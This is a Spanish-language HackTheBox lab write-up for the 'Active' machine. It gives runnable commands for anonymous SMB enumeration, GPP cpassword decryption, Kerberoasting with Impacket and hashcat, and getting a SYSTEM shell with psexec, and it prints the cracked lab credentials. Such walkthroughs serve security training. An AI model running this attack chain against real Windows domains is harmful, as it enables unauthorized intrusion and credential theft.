





> **Plataforma:** HackTheBox
> **OS:** Windows Server 2008 R2
> **Dificultad:** Easy
> **Vectores:** GPP cpassword (MS14-025), Kerberoasting
> **Herramientas:** Nmap, smbmap, smbclient, gpp-decrypt, Impacket (GetUserSPNs, psexec), Hashcat

---

## 1. Reconocimiento Inicial

### Escaneo de Puertos

Un escaneo TCP SYN completo reveló el footprint clásico de un Domain Controller en Active Directory:

```bash
sudo nmap -sS --open -p- -Pn -n -v active.htb
```

**Puertos clave abiertos:** 53 (DNS), 88 (Kerberos), 135 (MSRPC), 139/445 (SMB), 389/636 (LDAP/LDAPS), 3268/3269 (Global Catalog), 5722 (DFSR), 9389 (ADWS), además de varios puertos RPC de rango alto.



### Enumeración SMB

Usando `enum4linux-ng` y `smbmap`, identificamos el objetivo como un **Windows Server 2008 R2** Domain Controller (`DC.active.htb`) para el dominio `ACTIVE`. SMB signing estaba habilitado.

```bash
smbmap -H active.htb
```



| Share       | Permisos    | Comentario         |
|-------------|-------------|---------------------|
| ADMIN$      | NO ACCESS   | Remote Admin        |
| C$          | NO ACCESS   | Default share       |
| IPC$        | NO ACCESS   | Remote IPC          |
| NETLOGON    | NO ACCESS   | Logon server share  |
| Replication | READ ONLY   |                     |
| SYSVOL      | NO ACCESS   | Logon server share  |
| Users       | NO ACCESS   |                     |

**Hallazgo clave:** El share `Replication` era accesible mediante **null session (login anónimo)** con permisos de solo lectura. Este share resultó ser una réplica del directorio SYSVOL.

---

## 2. Acceso Inicial — GPP cpassword (MS14-025)

### Descubrimiento del archivo Groups.xml

Navegando el share `Replication` anónimamente, encontramos una estructura tipo SYSVOL que contenía Group Policy Objects:

```bash
smbclient -N //active.htb/Replication
```

```
smb: \> cd active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\
```

Dentro de este GPO (la **Default Domain Policy**), exploramos `MACHINE\Preferences\` y localizamos un archivo `Groups.xml` — la señal inequívoca de **credenciales GPP (Group Policy Preferences)**.

```bash
smbmap -H active.htb -r 'Replication' --depth 5
```



### Extracción del cpassword

El archivo `Groups.xml` contenía una contraseña cifrada (`cpassword`) para una cuenta de servicio. Microsoft publicó la clave AES-256 utilizada para cifrar contraseñas GPP en [MS14-025](https://learn.microsoft.com/en-us/security-updates/SecurityBulletins/2014/ms14-025), haciendo el descifrado trivial.

```bash
# Descargar el archivo
smbclient -N //active.htb/Replication -c 'get active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml'
```

```xml
<!-- Contenido de Groups.xml -->
<Groups>
  <User name="active.htb\SVC_TGS" ...>
    <Properties ... cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" ... />
  </User>
</Groups>
```

### Descifrado con gpp-decrypt

```bash
gpp-decrypt "edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
# Resultado: GPPstillStandingStrong2k18
```

**Credenciales obtenidas:** `active.htb\SVC_TGS` : `GPPstillStandingStrong2k18`

### Validación de Acceso

Con las credenciales recuperadas, confirmamos acceso autenticado y obtuvimos el **user flag**:



```bash
smbmap -H active.htb -u SVC_TGS -p GPPstillStandingStrong2k18
# El share Users ahora es accesible

smbclient //active.htb/Users -U 'SVC_TGS%GPPstillStandingStrong2k18'
smb: \> get SVC_TGS\Desktop\user.txt
```

---

## 3. Escalada de Privilegios — Kerberoasting

### Justificación del vector

El nombre de la cuenta `SVC_TGS` sugería fuertemente una cuenta de servicio con un **Service Principal Name (SPN)** registrado en Active Directory. Las cuentas con SPNs son vulnerables a **Kerberoasting**: cualquier usuario autenticado del dominio puede solicitar un ticket TGS para el SPN, y el ticket está cifrado con el hash NTLM de la cuenta de servicio — lo cual permite cracking offline.

### Solicitud del ticket TGS

Usando `GetUserSPNs.py` de Impacket, solicitamos todas las cuentas Kerberoastable:

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.129.23.48 -request
```

```
ServicePrincipalName  Name           MemberOf
--------------------  -------------  ----------------------------------------------------------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb
```

**Hallazgo critico:** La cuenta `Administrator` tenía un SPN (`active/CIFS:445`), haciéndola directamente Kerberoastable. La herramienta generó un hash Kerberos 5 TGS-REP (`$krb5tgs$23$*...`).

### Cracking del Hash

```bash
hashcat -m 13100 kerberoast.hash /usr/share/wordlists/rockyou.txt --force
```

```
$krb5tgs$23$*Administrator$ACTIVE.HTB$...*:Ticketmaster1968
```

**Contraseña del Administrator:** `Ticketmaster1968`

### Shell como SYSTEM

Con las credenciales de Domain Administrator, usamos `psexec.py` de Impacket para obtener una shell SYSTEM:

```bash
impacket-psexec active.htb/Administrator:Ticketmaster1968@10.129.23.48
```



---

## 4. Resumen del Attack Path

```
Anonymous SMB Access (Replication share)
    +-- GPP cpassword en Groups.xml (MS14-025)
        +-- Credenciales: SVC_TGS / GPPstillStandingStrong2k18
            +-- user.txt
            +-- Kerberoasting (Administrator tiene SPN)
                +-- Credenciales: Administrator / Ticketmaster1968
                    +-- psexec -> SYSTEM
                        +-- root.txt
```

---

## Herramientas Relacionadas (Ecosistema pwnVader)

> **Impacket:** Esta máquina utiliza directamente `GetUserSPNs.py` y `psexec.py` de Impacket. Consulta la [Guia Operativa de Impacket](/metodologias/active-directory/impacket-guide/) y los [Ataques Kerberos con Impacket](/metodologias/active-directory/impacket-attacks/) para la documentación completa de estas herramientas.
